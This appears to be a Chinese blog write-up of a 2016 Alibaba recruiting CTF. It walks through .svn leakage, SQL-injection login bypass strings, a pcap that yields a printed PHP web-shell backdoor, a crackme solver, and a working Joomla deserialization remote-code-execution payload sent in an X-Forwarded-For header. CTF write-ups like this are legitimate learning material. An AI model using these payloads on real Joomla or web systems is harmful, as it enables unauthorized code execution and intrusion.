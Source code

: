 title: This is AliCTF?
date: 2016-03-15 08:35:30
tags: CTF
categories: H-blog
---
![alictf0](/img/alictf0.png)
<!--more-->
这算是今年的阿里CTF？昨天小伙伴在玩这个，我在研究0CTF的WEB题，今早知道真相的我眼泪掉下来。上周五刚面了一轮。。。

# Step 0
上图中的base64解码呗。。
```
$ echo "aHR0cDovLzIxOC4yNDQuMTQzLjE5OC8=" | base64 -d
http://218.244.143.198/
```

打开来是一个 伪造？ 的sqlmap网站，右键查看源码， 有一坨jsfuck，太长了，这里就不贴了。。直接丢F12里面的console运行，得到：
```
218.244.143.198/.svn/
```

那就svn泄露呗，记得以前做过这样的题，记不清楚了，google一下，
> 现实的开发环境中，强烈建议使用导出功能svn export而不是svn co。由此可能导致非常严重的问题，很多管理员直接吧svn co出来的代码直接放到web目录下。这就使.svn隐藏文件夹被暴露于外网环境，黑客可以借助其中包含的用于版本信息追踪的“entries”文件，逐步摸清站点结构。

所以接下来就是访问 `http://218.244.143.198/.svn/entries`, 得到
```
12
This is lastest version SVN, U know wc.db?
```

然后访问 `http://218.244.143.198/.svn/wc.db` 把这文件下下来，这文件是svn的sqlite数据库，然后装了一个这个数据库的浏览器。
```
$ sudo apt-get install sqlitebrowser
```

然后用这个打开wc.db，然后关于这个数据库的问题网上随便都搜的到，然后找到一篇wp: <http://bobao.360.cn/learning/detail/129.html>
发现一个页面：`66666/index.php` 不过这wp中说的源码泄露没发现，所以直接去访问看看。。

好了。。。这时候该问。。最短的payload的是啥？讲道理，我觉得是 `'='`, 可是竟然不跟我讲道理。。。所以我觉得最短的是`'=''#`还有`'||1#` , 然后得到
```
Hack it to make money! GoGoGo~ http://218.244.143.198/zootopia/
```

。。这。。懵逼了一会，随便看了看默认的是啥。。。发现是一串md5: `d41b8265807ce33038df2b3f7aa9fb10`
丢cmd5上，接出来是aliyun, 试试，(⊙v⊙)。。。。对了
得到一个文件:`c0ngrats.txt`, 打开来看看，得知后面还有3题，和下一题的题目地址：`http://218.244.143.198/static/backdoor.zip`

# Step 1

下载下来解压出来是一个数据包，数据流量审计题。。关于这类的题，我觉得很蛋疼。要不然很简单，比如http这样明文传输的协议的审计，要不然再难一点，加上802.11无线协议，但是这种爆破密码就没意思了，不设密码又太简单。要不然就是很难的审计加密协议。。所以hctf的时候我就没出流量审计的题目。

这题呢，就属于那种就简单的把，先过滤出来http协议，然后发现第一个backdoor.php，然后整理了下这个后门的源码
```
<?php
@ini_set("display_errors","0");
@set_time_limit(0);
@set_magic_quotes_runtime(0);
echo("->|");
$D=base64_decode($_POST["z1"]);
$F=@opendir($D);
if($F==NULL) {
	echo("ERROR:// Path Not Found Or No Permission!");
} else{
	$M=NULL;
	$L=NULL;
	while($N=@readdir($F)) {
		$P=$D."/".$N;
		$T=@date("Y-m-d H:i:s",@filemtime($P));
		@$E=substr(base_convert(@fileperms($P),10,8),-4);
		$R="\t".$T."\t".@filesize($P)."\t".$E."\n";
		if(@is_dir($P)) $M.=$N."/".$R;
		else $L.=$N.$R;
	}
	echo $M.$L;
	@closedir($F);
};
echo("|<-");
die(); 
?>
```

然后发现ip和该题的题目链接ip一样，去试试，没有这后门文件，那就从数据包入手。右击 -> Follow TCP Stream
得到另一个文件`wllm`, 访问得
```
find data package careful, you will find next level url , that will be a crackme
```

所以说下一题的入口还是在数据包里。。。看着一坨的http包，好吧，继续过滤 `http && ip.addr==218.244.143.198`
然后从第四个POST包中的参数z2中得到下一题的入口：
```
$ echo "YUhSMGNEb3ZMekl4T0M0eU5EUXVNVFF6TGpFNU9DOXpkR0YwYVdNdlkzSmhZMnR0WlE9PQ==" | base64 -d| base64 -d
http://218.244.143.198/static/crackme
```

# Step 2

linux64位逆向题呗。。。比Z神出的简单多了，直接丢到ida中，F5，关键部分如图所示
![alictf1](/img/alictf1.png)
payload:
```
# crack.py
#!/usr/bin/env python
#-*- coding:utf-8 -*-

secret = [0x8, 0x45, 0x0A, 0x42, 0x4b, 0x31, 0x6d, 0x2f, 0x52, 0x0b, 0x16, 0x23] 
secret1 = [0x73, 0x64, 0x66, 0x23, 0x6b, 0x6c, 0x25, 0x72, 0x29, 0x6b, 0x73, 0x6b]
result = ""

for x in range(12):
	tmp = secret[x] ^ secret1[x] ^ 0xF
	result += chr(tmp)

result += "a"
print result
# $ python crack.py | ./crackme
# I want ur password:Yes!
# $ python crack.py
# t.cn/RGRtojGa
```

去掉最后的a，就是下一题的入口了
# Step 3

http://112.124.106.246/7fbde8d70c816033/index.php
打开来一看是.....Joomla。。。。。。。。。。
0CTF的piapiapia那题搜关于php序列化的漏洞搜出来的全是这个博客的反序列化截断漏洞。。。。
然后发现这漏洞阿里云还写了分析报告，好了。。。估计就是这洞了。。。
payload:
```
# payload.py
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests

url = "http://112.124.106.246/7fbde8d70c816033/index.php"
header = {
	"X-Forwarded-For": '}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\\0\\0\\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\\0\\0\\0connection";b:1;}\xf0',
}

req = requests.get(url, headers=header)
print req.content
# $ python payload.py
# Success! key:xxxxxxxxxxxxxxxxxxxxx 发简历时附加此key有加分
```

撸了两节课撸完了。。。还是继续研究0CTF去了。。